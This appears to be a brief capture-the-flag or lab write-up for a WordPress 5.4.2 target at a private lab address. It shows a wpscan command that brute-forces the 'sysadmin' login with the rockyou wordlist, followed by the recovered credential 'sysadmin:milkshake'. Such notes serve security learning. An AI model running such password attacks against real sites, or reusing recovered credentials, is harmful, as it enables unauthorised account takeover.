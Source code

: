 ![[Pasted image 20240127064541.png]]

version:WordPress 5.4.2

# bruteforce
```bash
wpscan --url http://10.10.218.113/ -U sysadmin -P /usr/share/wordlists/rockyou.txt

```

![[Pasted image 20240127064809.png]]

`sysadmin:milkshake`